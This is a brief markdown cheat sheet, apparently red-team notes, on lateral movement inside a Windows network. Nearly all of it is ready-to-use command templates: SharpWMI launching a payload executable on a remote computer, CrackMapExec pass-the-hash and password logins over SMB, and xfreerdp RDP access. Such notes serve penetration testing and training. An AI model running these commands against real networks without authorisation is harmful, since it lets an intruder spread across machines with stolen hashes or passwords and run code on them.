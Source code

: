 # Lateral Movement Techniques

## SharpWMI

https://github.com/GhostPack/SharpWMI

Launch payload:

```
SharpWMI.exe action=create computername=<hostname> command="C:\path\to\exe"
```

## Crackmapexec

Pass the hash of a local account, such as the local administrator account

```
cme smb <target> -u <username> -H '<NTLM_Hash>' --local-auth``
```

Password authentication with a domain account. In some environments you won't need to supply the domain name. It'll just automatically populate the field.

```
cme smb <target> -u <username> -p '<password>' -d <domain>
```

## xfreerdp

xfreerdp is usually used for lateral movement through RDP when NLA is enforced.

```
xfreerdp /u:user /p:password /v:host
```